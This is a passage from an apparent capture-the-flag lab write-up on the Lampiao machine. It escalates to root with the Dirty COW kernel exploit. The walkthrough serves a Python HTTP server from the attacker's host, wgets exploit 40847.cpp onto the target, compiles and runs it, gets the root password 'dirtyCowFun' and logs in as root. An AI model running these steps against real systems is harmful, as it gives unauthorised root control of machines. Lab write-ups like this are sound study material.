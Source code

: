 Out of the many exploits suggested, we will be using the [Dirty COW](https://www.exploit-db.com/exploits/40847) exploit.

#### Dirty COW

![4](https://github.com/Kunull/Write-ups/assets/110326359/57d295a5-faee-47c1-a441-85bae728e49e)

Let's start a Python3 server.

```
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Now, let's use `wget` on the target to download the exploit from the Python server.

```
tiago@lampiao:/tmp$ wget http://192.168.45.187:8000/40847.cpp
--2024-05-05 03:49:16--  http://192.168.45.187:8000/40847.cpp
Connecting to 192.168.45.187:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10531 (10K) [text/x-c++src]
Saving to: ‘40847.cpp’

100%[==================================================================================================================================================================================================>] 10,531      --.-K/s   in 0.03s   

2024-05-05 03:49:16 (379 KB/s) - ‘40847.cpp’ saved [10531/10531]
```

Before we run the exploit, we have to first compile it.

```
tiago@lampiao:/tmp$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
```

Now, we can run the exploit.

```
tiago@lampiao:/tmp$ ./dcow
Running ...
Received su prompt (Password: )
Root password is:   dirtyCowFun
Enjoy! :-)
```

| Username | Password    |
| -------- | ----------- |
| root     | dirtyCowFun |

We can now login as the `root` user.

```
tiago@lampiao:/tmp$ su root
Password:

root@lampiao:~# 
```
